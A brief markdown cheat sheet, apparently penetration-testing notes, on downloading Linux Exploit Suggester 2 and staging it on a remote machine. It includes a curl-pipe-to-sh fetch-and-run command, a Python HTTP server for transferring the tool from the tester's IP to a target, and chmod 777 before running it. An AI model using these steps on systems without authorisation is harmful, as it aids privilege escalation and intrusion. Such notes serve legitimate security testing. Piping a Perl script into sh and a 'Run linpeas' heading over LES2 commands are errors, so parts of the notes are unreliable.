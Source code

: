 # Linux Exploit Suggester 2
https://raw.githubusercontent.com/jondonas/linux-exploit-suggester-2/master/linux-exploit-suggester-2.pl
## Examples
### Download from GitHub with wget
```
wget https://raw.githubusercontent.com/jondonas/linux-exploit-suggester-2/master/linux-exploit-suggester-2.pl
```
### Download from github with curl
```
curl https://raw.githubusercontent.com/jondonas/linux-exploit-suggester-2/master/linux-exploit-suggester-2.pl | sh
```
### Serve from local machine
#### Steps
##### Serve From Local
1. download
```
wget https://raw.githubusercontent.com/jondonas/linux-exploit-suggester-2/master/linux-exploit-suggester-2.pl
```
1.  get ip address
```
ifconfig
```
1.  start python server
```
python -m SimpleHTTPServer 80
```
##### wget les2 from my IP on remote machine
```
wget $MY_IP/linux-exploit-suggester-2.pl
```
### Run linpeas
1. Ensure it is executable
```
chmod 777 linux-exploit-suggester-2.pl
```
1.  Run it
```
./linux-exploit-suggester-2.pl
```